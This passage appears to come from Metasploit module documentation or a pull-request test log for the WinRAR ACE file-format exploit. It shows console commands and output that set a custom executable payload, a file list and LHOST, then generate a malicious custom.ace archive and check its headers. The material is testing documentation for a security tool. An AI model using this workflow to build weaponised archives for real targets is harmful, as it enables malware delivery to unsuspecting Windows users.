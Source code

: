 ```
    reserved2   b''
msfdev2@automata:~$ 
```

### Test with custom payload, 2 additional files in archive
Contents of `FILE_LIST`:
```
msfdev2@automata:~$ cat ace_files.txt 
/home/msfdev2/hello.txt
/home/msfdev2/world.txt
msfdev2@automata:~$ 
```

Contents of each file in the list:
```
msfdev2@automata:~$ cat hello.txt
hello
msfdev2@automata:~$ cat world.txt
world
msfdev2@automata:~$ 
```

Custom payload to be used:
```
msfdev2@automata:~$ ls -la | grep abcdef.exe
-rw-r--r--  1 msfdev2 msfdev2   73802 Apr 16 22:11 abcdef.exe
msfdev2@automata:~$ 
```

Output from Metasploit:
```
msf exploit(windows/fileformat/winrar_ace) > set CUSTFILE /home/msfdev2/abcdef.exe
CUSTFILE => abcdef.exe
msf exploit(windows/fileformat/winrar_ace) > set FILE_LIST /home/msfdev2/ace_files.txt
FILE_LIST => ace_files.txt
msf exploit(windows/fileformat/winrar_ace) > set FILENAME custom.ace
FILENAME => custom.ace
msf exploit(windows/fileformat/winrar_ace) > set LHOST 172.16.79.1
LHOST => 172.16.79.1
msf exploit(windows/fileformat/winrar_ace) > exploit

[*] Using the provided list of files @ /home/msfdev2/ace_files.txt...
[*] Using a custom payload: abcdef.exe
[*] Payload filename: abcdef.exe
[+] custom.ace stored at /home/msfdev2/.msf4/local/custom.ace
msf exploit(windows/fileformat/winrar_ace) > 
```

Verify checksums using `acefile`:
```
msfdev2@automata:~$ python3 acefile.py --headers .msf4/local/custom.ace
volume
    filename    .msf4/local/custom.ace
    filesize    74072
    headers     MAIN:1 FILE:3 others:0
header
    hdr_crc     0x286b
    hdr_size    49
    hdr_type    0x00        MAIN
    hdr_flags   0x9000      ADVERT|SOLID
    magic       b'**ACE**'
    eversion    20          2.0
    cversion    20          2.0
    host        0x02        Win32
    volume      0
    datetime    0x4e561810  2019-02-22 03:00:32
```